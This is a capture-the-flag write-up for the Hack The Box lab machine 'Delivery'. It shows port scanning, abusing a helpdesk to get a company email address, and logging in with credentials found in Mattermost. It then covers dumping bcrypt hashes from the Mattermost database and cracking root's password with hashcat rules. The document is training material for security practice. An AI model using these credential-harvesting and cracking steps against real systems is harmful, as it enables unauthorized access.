






# Delivery

Delivery is a easy Linux HTB machine made by [ippsec](https://app.hackthebox.eu/users/3769)

## Recon

### nmap

nmap found two open TCP ports `22 (SSH)` and `80 (HTTP)`

```nmap
# Nmap 7.91 scan initiated Wed Jan 20 05:39:20 2021 as: nmap -sC -sV -A -o nmap.txt 10.10.10.222
Nmap scan report for 10.10.10.222
Host is up (0.024s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey: 
|   2048 9c:40:fa:85:9b:01:ac:ac:0e:bc:0c:19:51:8a:ee:27 (RSA)
|   256 5a:0c:c0:3b:9b:76:55:2e:6e:c4:f4:b9:5d:76:17:09 (ECDSA)
|_  256 b7:9d:f7:48:9d:a2:f2:76:30:fd:42:d3:35:3a:80:8c (ED25519)
80/tcp open  http    nginx 1.14.2
|_http-server-header: nginx/1.14.2
|_http-title: Welcome
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Wed Jan 20 05:39:28 2021 -- 1 IP address (1 host up) scanned in 8.60 seconds
```

### Port 80

Going to `http://10.10.10.222` we are greeted with a landing page. Clicking on `contact us` brings up a popup. This provides us with a lot of useful information about the method we are going to go through to attack this box. It says:

>For unregistered users, please use our HelpDesk to get in touch with our team. Once you have an @delivery.htb email address, you'll be able to have access to our MatterMost server.

This also provides us with a few links; `helpdesk.delivery.htb` `delivery.htb` as well as a new port which nmap did not scan `delivery.htb:8065` containing the MatterMost server. We can add these to our hosts file in `/etc/hosts`.

## Shell as maildeliverer

### Obtaining a @delivery.htb email

As told by the popup, our first step to obtaining an email is by using the HelpDesk, we visit `http://helpdesk.delivery.htb/` and see an instance of `osticket` and the ability to open and check the status of a ticket. The contents of the ticket do not matter as we are not attempting to exploit this. Once created we are given a ticket id as well as an email address to add more information `id@delivery.htb`.


We can now go back and click on check status, enter the ticket id and the email we specified when creating it (not the delivery.htb one) and we can view the information that we entered previously:


### Signing up to MatterMost

Now that we have a `@delivery.htb` email we can visit the MatterMost instance at `http://delivery.htb:8065`. From here we can sign up and provide the email of the ticket as well as a username and password.

Now we need to verify our account. Remembering that we can add more information by emailing we can go back to our ticket and we see a new message containing the activation URL for our account.

Visiting the URL and re-entering our password we can join the `Internal` team. and can see some useful messages from `root`:


We can note from this the creds for the account maildeliverer, as well as a hint that a lot of the passwords on the box are variants of “PleaseSubscribe!”, and that Hashcat rules will find the variants.

### SSH

Using the creds provided, we can ssh as the user `maildeliverer` and obtain `user.txt`


## Shell as root

### SQL

Browsing through the files we find the configuration file for mattermost at `/opt/mattermost/config/config.json`. In here we see a line containing the mysql username and password as well as a hint of what to do

```text
        "DataSource": "mmuser:Crack_The_MM_Admin_PW@tcp(127.0.0.1:3306)/mattermost?charset=utf8mb4,utf8\u0026readTimeout=30s\u0026writeTimeout=30s",
```

We can use these creds to connect to the DB

```text
maildeliverer@Delivery:~$ mysql --user=mmuser --password=Crack_The_MM_Admin_PW
Welcome to the MariaDB monitor.  Commands end with ; or \g.
Your MariaDB connection id is 204
Server version: 10.3.27-MariaDB-0+deb10u1 Debian 10

Copyright (c) 2000, 2018, Oracle, MariaDB Corporation Ab and others.

Type 'help;' or '\h' for help. Type '\c' to clear the current input statement.

MariaDB [(none)]>
```

From here we can enumerate the databases:

```sql
MariaDB [(none)]> show databases;
+--------------------+
| Database           |
+--------------------+
| information_schema |
| mattermost         |
+--------------------+
2 rows in set (0.000 sec)

MariaDB [(none)]> use mattermost;
Reading table information for completion of table and column names
You can turn off this feature to get a quicker startup with -A

Database changed
MariaDB [mattermost]> 
```

then tables:

```sql
MariaDB [mattermost]> show tables;
+------------------------+
| Tables_in_mattermost   |
+------------------------+
| Audits                 |
...[snip]...
| UploadSessions         |
| UserAccessTokens       |
| UserGroups             |
| UserTermsOfService     |
| Users                  |
+------------------------+
46 rows in set (0.001 sec)
```

and from the `Users` table obtain the root password hash.

```sql
MariaDB [mattermost]> select Username, Password from Users;
+----------------------------------+--------------------------------------------------------------+
| Username                         | Password                                                     |
+----------------------------------+--------------------------------------------------------------+
| sylinsic1                        | $2a$10$4ZoP1eJ2aYY2kCfy3MwYo.vh/zpf05SXh.aaigf474KAHiEOMvEnm |
| surveybot                        |                                                              |
| c3ecacacc7b94f909d04dbfd308a9b93 | $2a$10$u5815SIBe2Fq1FZlv9S8I.VjU3zeSPBrIEg9wvpiLaS7ImuiItEiK |
| 5b785171bfb34762a933e127630c4860 | $2a$10$3m0quqyvCE8Z/R1gFcCOWO6tEj6FtqtBn8fRAXQXmaKmg.HDGpS/G |
| sylinsic                         | $2a$10$KCetAPPa9TcV9CtJZ1iqUefzsiZ.t27RCbWrWLRkpcdfjcaNfPwW. |
| root                             | $2a$10$VM6EeymRxJ29r8Wjkr8Dtev0O.1STWb4.4ScG.anuu7v0EFJwgjjO |
| ff0a21fc6fc2488195e16ea854c963ee | $2a$10$RnJsISTLc9W3iUcUggl1KOG9vqADED24CQcQ8zvUm1Ir9pxS.Pduq |
| u1274332                         | $2a$10$bsA0eXM4O3m/Ca4OELIHhuoSbAaoCwKcA67TncIM9k1G5NKytNFYK |
| channelexport                    |                                                              |
| 9ecfb4be145d47fda0724f697f35ffaf | $2a$10$s.cLPSjAVgawGOJwB7vrqenPg2lrDtOECRtjwWahOzHfq1CoFyFqm |
| afwfaawwf                        | $2a$10$aiCd1MhmQGUoBqKUI5y55.HsaeHsLLA8Q6sVrF8dl4BuoP.d5Ij0S |
| abc                              | $2a$10$HpRY.gf9grPm1F.h2a0V2.UH/0ExLbTyFK6zJ88VV9WsPE.EfirMW |
+----------------------------------+--------------------------------------------------------------+
12 rows in set (0.000 sec)
```

The others users don't seem too interesting, so we can just focus on the root account.

### Cracking the hash

Remembering the comment from MatterMost, we know that the password is a variation of `PleaseSubscribe!` and that we can use Hashcat rules to discover it. More information on creating custom rules can be found [here](https://hashcat.net/wiki/doku.php?id=rule_based_attack) but essentially rules create variations of a password. However, for now we can use the pre-made ones stored at `/usr/share/hashcat/rules`. There are a few but let's start with `best64.rule`. We can put our hash in a file called `hash` and our original password we want to create variations of (PleaseSubscribe!) in another called `wordlist`. The names are arbitrary. We can figure out that the hash type (needed for hashcat) is bcrypt through some light googling of the hash prefix `$2a$`. This means we need to use mode `3200`

```bash
$ hashcat -m 3200 hash wordlist -r /usr/share/hashcat/rules/best64.rule

hashcat (v6.1.1) starting...

OpenCL API (OpenCL 1.2 pocl 1.5, None+Asserts, LLVM 9.0.1, RELOC, SLEEF, DISTRO, POCL_DEBUG) - Platform #1 [The pocl project]
=============================================================================================================================
... [SNIP] ...
Approaching final keyspace - workload adjusted.  

$2a$10$VM6EeymRxJ29r8Wjkr8Dtev0O.1STWb4.4ScG.anuu7v0EFJwgjjO:PleaseSubscribe!21
... [SNIP] ...
```

### su

Now that we have the password we can try to ssh as `root` however we get a permission denied error. We can go back to our shell as `maildeliverer` and try `su` instead:

```bash
maildeliverer@Delivery:~$ su -
Password: 
root@Delivery:~# 
```

The password `PleaseSubscribe!21` works for root. Lets try to find out why we couldn't SSH. Opening the ssh config file at `/etc/ssh/sshd_config` we can see that `PermitRootLogin` is set to no.
